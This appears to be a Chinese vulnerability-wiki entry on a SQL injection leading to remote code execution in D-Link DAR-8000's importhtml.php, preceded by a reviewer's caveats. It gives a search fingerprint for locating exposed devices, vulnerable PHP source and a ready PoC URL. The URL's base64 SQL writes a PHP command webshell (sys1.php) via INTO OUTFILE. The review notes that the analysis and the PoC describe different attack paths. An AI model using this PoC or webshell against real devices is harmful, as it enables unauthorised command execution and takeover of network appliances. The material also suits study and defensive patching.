

# D-Link DAR-8000 importhtml.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DAR-8000
- 本文讨论：importhtml.php SQL注入至代码执行
- 版本、权限与配置前提：无固件与鉴权，PHP mysql_query可控SQL
- 资料类型：源码分析/PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 分析强调SQL结果到system命令注入，实际PoC为INTO OUTFILE写webshell，是不同后续路径
- 缺数据库FILE权限/可写路径前提；无CVE和原始研究直链
- 与55同入口可关联，但不可仅因相似删除此独有源码证据

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- CVE映射、源码版本和两条链前提待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

D-Link DAR-8000 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
D-Link DAR-8000
```

## 网络测绘

```
body="mask.style.visibility"
```

## 漏洞复现

登录页面





出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){
	Header( "Expires: 0" );
	Header( "Pragma: public" );
	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );
	Header( "Cache-Control: public");
	Header( "Content-Type: application/octet-stream" );
	header("Accept-Ranges: bytes");
	header("Content-Disposition: attachment; filename=$filename.html");
	echo "<html>\n";
	echo "<head><title>报表</title></head>\n";
	echo "<body>\n";
	$conn = connOther();
	$result = mysql_query($sql,$conn);
	while ($data= mysql_fetch_array($result)){
		$post_content = "";
		if($data['mail_file_path'] == "(null)"){
			$post_content = "<font color=red>内容审计未启用</font>";
		}
		else{
			$post_filename=$data['mail_file_path'];
			$ifother = "";
			$ifother = ifExistOther($post_filename);
			if($ifother!=""){
				$post_filename = $ifother;
			}
			$str = "/usr/bin/cap2con $post_filename pop";
			system($str,$returnvalue);
			$post_filename=str_replace(".cap",".eml",$post_filename);
			$post_content = file_get_contents($post_filename);
			$rec=new mime_decode;
			$post_content=$rec->decode_mime_string($post_content);
			//...
		}
	}
}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
